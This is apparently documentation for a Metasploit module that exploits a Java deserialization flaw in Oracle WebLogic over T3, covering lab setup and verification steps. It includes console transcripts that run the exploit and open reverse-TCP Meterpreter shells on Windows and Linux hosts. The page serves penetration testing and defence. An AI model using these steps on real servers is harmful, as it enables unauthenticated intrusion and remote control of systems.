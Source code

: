 ## Vulnerable Application

  There exists a Java object deserialization vulnerability
  in multiple versions of WebLogic.

  Unauthenticated remote code execution can be achieved
  by sending a serialized `BadAttributeValueExpException` object
  over the T3 protocol to vulnerable WebLogic servers.

  This module has been tested against versions `v12.1.3.0.0`,
  `v12.2.1.3.0`, and `v12.2.1.4.0`.

  WebLogic versions can be downloaded from [here](https://www.oracle.com/middleware/technologies/weblogic-server-installers-downloads.html).
  
### Installation

  Some version of Java 8 JDK is required to be installed on the server.
  This module has been tested successfully using jdk8u202 and [jdk8u251](https://www.oracle.com/java/technologies/javase-jdk8-downloads.html).
  
  Installation instructions for WebLogic can be found [here](https://docs.oracle.com/cd/E24705_01/doc.91/e21052/appx_install_wls.htm#EOPWC376).
  
  On step 10 of the installation instructions, keep the
  `Run Quickstart` box checked and click `done`. A new window
  should pop up. Select `Create a new domain` -> `next`.
  Ensure `Basic WebLogic Server Domain` is selected and click `next`.
  Create credentials and select `next`. Domain mode can be either
  `Production` or `Development`, click `next`. Click `next` again
  and select `Create`. Click `next` a couple more times, then click
  `finish`.

  To start WebLogic, execute either the `startWebLogic` script in
  `Oracle/Middleware/Oracle_Home/user_projects/domains/base_domain/`.

## Verification Steps

- [ ] Install the application
- [ ] Start msfconsole
- [ ] Do: ```use exploit/multi/misc/weblogic_deserialize_badattrval```
- [ ] Do: ```set RHOSTS <ip>```
- [ ] Do: ```run```
- [ ] You should get a meterpreter session.

## Scenarios
### WebLogic `v12.2.1.4` on Windows 10

  ```
  msf5 > use exploit/multi/misc/weblogic_deserialize_badattrval
  msf5 exploit(multi/misc/weblogic_deserialize_badattrval) > set rhosts 172.16.215.185
  rhosts => 172.16.215.185
  msf5 exploit(multi/misc/weblogic_deserialize_badattrval) > set lhost 172.16.215.1
  lhost => 172.16.215.1
  msf5 exploit(multi/misc/weblogic_deserialize_badattrval) > run

  [*] Started reverse TCP handler on 172.16.215.1:4444
  [*] 172.16.215.185:7001 - WebLogic version detected: 12.2.1.4.0
  [*] 172.16.215.185:7001 - Sending handshake...
  [*] 172.16.215.185:7001 - Formatting payload...
  [*] 172.16.215.185:7001 - Sending object...
  [*] Sending stage (176195 bytes) to 172.16.215.185
  [*] Meterpreter session 1 opened (172.16.215.1:4444 -> 172.16.215.185:50795) at 2020-05-15 09:37:45 -0500

  meterpreter > getuid
  Server username: DESKTOP-AQT4EG1\space
  meterpreter > sysinfo
  Computer        : DESKTOP-AQT4EG1
  OS              : Windows 10 (10.0 Build 18362).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 4
  Meterpreter     : x86/windows
  ```

### WebLogic `v12.1.3.0.0` on Linux
  
  ```
  msf5 exploit(multi/misc/weblogic_deserialize_badattrval) > set target 1
  target => 1
  msf5 exploit(multi/misc/weblogic_deserialize_badattrval) > set payload linux/x64/meterpreter/reverse_tcp
  payload => linux/x64/meterpreter/reverse_tcp
  msf5 exploit(multi/misc/weblogic_deserialize_badattrval) > set rhosts 172.16.215.196
  rhosts => 172.16.215.196
  msf5 exploit(multi/misc/weblogic_deserialize_badattrval) > run

  [*] Started reverse TCP handler on 172.16.215.1:4444 
  [*] 172.16.215.196:7001 - WebLogic version detected: 12.1.3.0.0
  [*] 172.16.215.196:7001 - Sending handshake...
  [*] 172.16.215.196:7001 - Formatting payload...
  [*] 172.16.215.196:7001 - Sending object...
  [*] Sending stage (3012516 bytes) to 172.16.215.196
  [*] Meterpreter session 6 opened (172.16.215.1:4444 -> 172.16.215.196:60672) at 2020-05-15 09:41:17 -0500
  [*] 172.16.215.196:7001 - Command Stager progress - 101.36% done (820/809 bytes)

  meterpreter > getuid
  Server username: no-user @ ubuntu (uid=1000, gid=1000, euid=1000, egid=1000)
  meterpreter > sysinfo
  Computer     : 172.16.215.196
  OS           : Ubuntu 18.04 (Linux 4.18.0-15-generic)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  ```
